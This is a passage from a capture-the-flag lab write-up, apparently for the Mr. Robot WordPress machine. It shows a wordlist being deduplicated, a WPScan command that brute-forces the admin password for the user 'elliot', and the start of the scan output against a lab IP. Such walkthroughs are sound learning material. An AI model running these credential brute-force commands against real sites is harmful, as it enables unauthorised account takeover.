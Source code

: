 From Wappalyzer results, and the comment in the response for `/wp-links-opml`, I learnt that the site was running WordPress 4.3.1. This led me to try running [WPscan](https://wpscan.org/) against the site.

One of the features that WPscan provides is brute force of admin credentials. As word list for brute forcing the admin page, I used the dictionary I found after inspecting `robots.txt`. For the username, I ended up getting a match with `elliot`, which is the name of the main character of the show Mr. Robot.

Before trying to brute force the admin login, I made sure that the dictionary was clean of duplicates. By executing the following command, the file went from 860k lines, to only 10. That obviously sped up the brute forcing process quite a lot.

```bash
sort fsocity.dic | uniq -u > fsociety-sorted-removed-dup.dic
```

Then, we run the following command:

```bash
wpscan --url  --passwords fsociety-sorted-removed-dup.dic --usernames elliot
```

The report I got back from WPscan looked like this:

```bash
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.5
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.117.144/ [10.10.117.144]
[+] Started: Mon Aug 10 21:52:05 2020

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://10.10.117.144/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://10.10.117.144/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] The external WP-Cron seems to be enabled: http://10.10.117.144/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
```